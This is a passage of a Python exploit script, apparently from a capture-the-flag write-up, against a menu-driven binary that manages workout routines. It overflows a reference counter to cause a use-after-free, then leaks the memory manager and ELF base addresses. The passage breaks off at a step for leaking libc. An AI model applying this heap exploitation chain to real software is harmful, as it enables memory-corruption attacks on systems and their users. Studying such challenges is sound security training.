 ```py
def delete_routine(id):
    sla(b"Menu>>", b"6")
    sla(b"0)>>", str(id).encode())

def set_exercise_to_routine(exercise_id,routine_id):
    sla(b"Menu>>", b"7")
    sla(b"id>>", str(exercise_id).encode())
    sla(b"0)>>", str(routine_id).encode())

def remove_exercise_to_routine(exercise_id,routine_id):
    sla(b"Menu>>", b"8")
    sla(b"0)>>", str(routine_id).encode())
    sla(b"routine>>", str(exercise_id).encode())

def swap_exercise_routine(routine_id, exercise_id_1, exercise_id_2):
    sla(b"Menu>>", b"9")
    sla(b"0)>>", str(routine_id).encode())
    sla(b"routine>>", str(exercise_id_1).encode())
    sla(b"routine>>", str(exercise_id_2).encode())

def view_routine_details(id):
    sla(b"Menu>>", b"10")
    sla(b"0)>>", str(id).encode())


new_exercise(b"aaaaaab") # refcount = 1
new_routine(0)

# overflow refcount to 0
for _ in tqdm(range(255)):
    set_exercise_to_routine(0, 0)
    swap_exercise_routine(0, 0, 0)

set_exercise_to_routine(0, 0) # refcount = 1
delete_routine(0) # refcount = 0, exercise is free-ed

new_routine(1) # day = 1, refcount = 1 (overlap)

new_exercise(b"zz")
new_exercise(b"XXXXXXXXX")
new_exercise(b"QQQQQQQQX")
delete_exercise(0)
set_exercise_to_routine(1, 1) # write a pointer to routine->exercise[0]

# leak custom memory manager base

new_exercise(b"aaaaaa\x01")
view_routine_details(1)
ru(b"aaaaa")
memorymanager_base = unpack(rl().strip(), "all") - 1
print(f"memory manager base @ {hex(memorymanager_base)}")

# leak elf base via vtable ptr

delete_exercise(0)
new_exercise(b"aaaaaa" + p64(memorymanager_base+0x60-0xa))
view_routine_details(1)

ru(b"[0] ")
elf.address = unpack(rl().strip(), "all")  - 0x1cae0
print(f"elf base @ {hex(elf.address)}")

# leak libc base via GOT
```